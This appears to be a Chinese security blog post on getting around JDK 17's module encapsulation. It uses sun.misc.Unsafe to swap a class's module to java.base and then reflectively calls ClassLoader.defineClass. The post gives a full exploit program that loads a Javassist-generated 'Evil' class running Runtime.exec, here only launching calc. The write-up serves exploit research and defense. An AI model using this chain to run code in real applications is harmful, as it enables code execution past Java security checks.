







#### 0x01 模块化封装

JDK 9 之前通过访问修饰符将类标记为 private protected 以保证这些类无法被外部类进行访问，还有 default public 这些访问修饰符，但是可以通过反射去绕过该限制修改这些类的字段或者调用其内部方法。

```java
obj.getClass().getDeclaredField(FieldName).setAccessible(true);
```

JDK 9 - 16，逐步实现模块化封装，这一阶段只是输出 warning 表示不应该去反射调用内部 API ，并未禁止。 JDK 17 之后开始严格执行这种封装限制，java.* 包中的一些非 Public 类，sun.* 包中的所有类，com.sun.* jdk.* org.* 包中的大多数类不再能被外部调用，并且引入了动态的基于上下文的序列化过滤器，比如开发者编写的业务逻辑中创建的 ObjectInputStream 实例，会被强制调用上述序列化过滤器，Spring 、Jms 中的输入流实例，原生 java.io 操作同上。

1. 位于模块之外的代码只能访问该模块导出的 public protected 属性
2. protected 属性只能从定义他们的类的一些子类中被访问

跟进 JDK 17 的 setAccessible

```java
AccessibleObject.checkPermission();
if (flag) checkCanSetAccessible(Reflection.getCallerClass());
setAccessible0(flag);
```

checkPermission  检验当前安全策略是否具有改变访问控制的权限

```java
static void checkPermission() {
    @SuppressWarnings("removal")
    SecurityManager sm = System.getSecurityManager();
    if (sm != null) {
        // SecurityConstants.ACCESS_PERMISSION is used to check
        // whether a client has sufficient privilege to defeat Java
        // language access control checks.
        sm.checkPermission(SecurityConstants.ACCESS_PERMISSION);
    }
}
```

getCallerClass  返回调用了当前方法的调用方的类，就是调用了 setAccessible 的类



checkCanSetAccessible  检查调用 setAccessible 方法的类是否有权限改变访问控制，大致如下

JVM 会检查调用方  Main 与目标方的模块边界，属于同一模块则不会触发拦截。

```java
if (caller == MethodHandle.class) {
    throw new IllegalCallerException();   // should not happen
}

Module callerModule = caller.getModule();
Module declaringModule = declaringClass.getModule();

if (callerModule == declaringModule) return true;
if (callerModule == Object.class.getModule()) return true;
if (!declaringModule.isNamed()) return true;

String pn = declaringClass.getPackageName();
int modifiers;
if (this instanceof Executable) {
    modifiers = ((Executable) this).getModifiers();
} else {
    modifiers = ((Field) this).getModifiers();
}
```


#### 0x02 绕过



该类主要作用为执行不安全操作的方法，直接访问系统内存资源，自主管理这些资源，操作底层资源，类似 c 语言的指针一样操作内存空间。这也导致了使用 Unsafe 类容易使得程序出错

```java
package sun.misc;

import jdk.internal.vm.annotation.ForceInline;
import jdk.internal.misc.VM;
import jdk.internal.reflect.CallerSensitive;
import jdk.internal.reflect.Reflection;

import java.lang.invoke.MethodHandles;
import java.lang.reflect.Field;
import java.util.Set;


/**
 * A collection of methods for performing low-level, unsafe operations.
 * Although the class and all methods are public, use of this class is
 * limited because only trusted code can obtain instances of it.
 *
 * <em>Note:</em> It is the responsibility of the caller to make sure
 * arguments are checked before methods of this class are
 * called. While some rudimentary checks are performed on the input,
 * the checks are best effort and when performance is an overriding
 * priority, as when methods of this class are optimized by the
 * runtime compiler, some or all checks (if any) may be elided. Hence,
 * the caller must not rely on the checks and corresponding
 * exceptions!
 *
 * @author John R. Rose
 * @see #getUnsafe
 */

public final class Unsafe {

    static {
        Reflection.registerMethodsToFilter(Unsafe.class, Set.of("getUnsafe"));
    }

    private Unsafe() {}

    private static final Unsafe theUnsafe = new Unsafe();
    private static final jdk.internal.misc.Unsafe theInternalUnsafe = jdk.internal.misc.Unsafe.getUnsafe();

    /**
     * Provides the caller with the capability of performing unsafe
     * operations.
     *
     * <p>The returned {@code Unsafe} object should be carefully guarded
     * by the caller, since it can be used to read and write data at arbitrary
     * memory addresses.  It must never be passed to untrusted code.
     *
     * <p>Most methods in this class are very low-level, and correspond to a
     * small number of hardware instructions (on typical machines).  Compilers
     * are encouraged to optimize these methods accordingly.
     *
     * <p>Here is a suggested idiom for using unsafe operations:
     *
     * <pre> {@code
     * class MyTrustedClass {
     *   private static final Unsafe unsafe = Unsafe.getUnsafe();
     *   ...
     *   private long myCountAddress = ...;
     *   public int getCount() { return unsafe.getByte(myCountAddress); }
     * }}</pre>
     *
     * (It may assist compilers to make the local variable {@code final}.)
     *
     * @throws  SecurityException if the class loader of the caller
     *          class is not in the system domain in which all permissions
     *          are granted.
     */
    @CallerSensitive
    public static Unsafe getUnsafe() {
        Class<?> caller = Reflection.getCallerClass();
        if (!VM.isSystemDomainLoader(caller.getClassLoader()))
            throw new SecurityException("Unsafe");
        return theUnsafe;
    }
```

0x01 提到 setAccessible 方法， JVM 会检查调用方  Main 与目标方的模块边界，属于同一模块则不会触发拦截。这里可以通过 Unsafe 类的 getAndSetObject 方法，对对象的字段进行更新赋值。

```java
// 获取 Unsafe 对象
Class<?> name = Class.forName("sun.misc.Unsafe");
Field field = name.getDeclaredField("theUnsafe");
field.setAccessible(true);
Unsafe unsafe = (Unsafe) field.get(null);

// 获取偏移
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));

// 获取属于 java.base 模块的 module
Module module = String.class.getModule()
    
// 当前类的 module 赋值为 java.base
    
Class<Main> TClass = Main.class;
unsafe.getAndSetObject(TClass, offset, module);
```

然后我再调用同属于 java.base 模块下的 ClassLoader.defineClass 就不会被拦截。以下是为执行上述 module 赋值和执行之后的区别





可以看到通过将 Test 类的 module 覆盖成 java.base 模块，就可以反射调用 java.base 模块内部私有方法，或者保护方法。仍然有报错是因为 java 12 开始禁止通过 Reflection API 修改静态常量，这里可以使用 Unsafe 直接覆写内存来修改静态常量。

```java
HashMap map = new HashMap();
Field field1 = HashMap.class.getDeclaredField("MAXIMUM_CAPACITY");

Object staticBase = unsafe.staticFieldBase(field1);
long staticOffset = unsafe.staticFieldOffset(field1);
unsafe.putInt(staticBase, staticOffset, 3);

field1.setAccessible(true);
System.out.println("Modified MAXIMUM_CAPACITY: " + field1.get(null));
```



然后调用 ClassLoader.defineClass 

```java
ClassPool pool = ClassPool.getDefault();
//        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Evil");
//        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
String Cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
cc.makeClassInitializer().insertBefore(Cmd);
byte[] evilBytes = cc.toBytecode();
System.out.println(Base64.getEncoder().encodeToString(cc.toBytecode()));
// 这里不要引入 AbstractTranslet ,该类属于 java.xml 模块，java.base 模块下不能访问到该类，会报错
```



exp  如下

```java
import javassist.*;
import sun.misc.Unsafe;

import java.io.IOException;
import java.lang.Module;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashMap;
import java.lang.String;
public class Test {
    public static void main(String[] args) throws CannotCompileException, IOException, NotFoundException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException {
        ClassPool pool = ClassPool.getDefault();
//        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Evil");
//        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String Cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
        cc.makeClassInitializer().insertBefore(Cmd);
        byte[] evilBytes = cc.toBytecode();
        String payload = Base64.getEncoder().encodeToString(cc.toBytecode());

        Class<?> name = Class.forName("sun.misc.Unsafe");
        Field field = name.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        Module module = String.class.getModule();
        Class<?> TClass = Test.class;
        unsafe.getAndSetObject(TClass, offset, module);

        System.out.println("ClassLoader_module: "+ClassLoader.class.getModule());
        System.out.println("Current_Test_module: "+Test.class.getModule());

        HashMap map = new HashMap();
        Field field1 = HashMap.class.getDeclaredField("MAXIMUM_CAPACITY");

        Object staticBase = unsafe.staticFieldBase(field1);
        long staticOffset = unsafe.staticFieldOffset(field1);
        unsafe.putInt(staticBase, staticOffset, 3);

        field1.setAccessible(true);
        System.out.println("Modified MAXIMUM_CAPACITY: " + field1.get(null));

        String evilClassBase64 = payload;
        byte[] bytes = Base64.getDecoder().decode(evilClassBase64);

        Method method = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        method.setAccessible(true);
        ((Class)method.invoke(ClassLoader.getSystemClassLoader(), "Evil", bytes, 0, bytes.length)).newInstance();
    }
}

```




**参考链接**

https://openjdk.org/jeps/403

https://h3rmesk1t.github.io/2024/10/23/Unsafe%E7%BB%95%E8%BF%87%E9%AB%98%E7%89%88%E6%9C%ACJDK%E5%8F%8D%E5%B0%84%E9%99%90%E5%88%B6/

https://xz.aliyun.com/news/91621